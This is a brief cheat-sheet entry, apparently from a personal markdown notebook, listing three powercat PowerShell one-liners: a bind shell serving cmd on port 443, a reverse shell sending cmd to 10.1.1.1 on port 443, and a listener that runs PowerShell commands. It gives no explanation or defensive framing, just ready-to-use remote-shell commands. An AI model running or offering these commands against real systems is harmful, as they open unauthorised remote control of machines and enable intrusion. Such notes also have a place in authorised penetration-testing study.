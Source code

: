 ```PowerShell
powercat -l -p 443 -e cmd # Serve a cmd Shell
powercat -c 10.1.1.1 -p 443 -e cmd # Send a cmd Shell
powercat -l -p 443 -ep # Serve a shell which executes powershell commands
```
![[powercat.ps1_installation]]
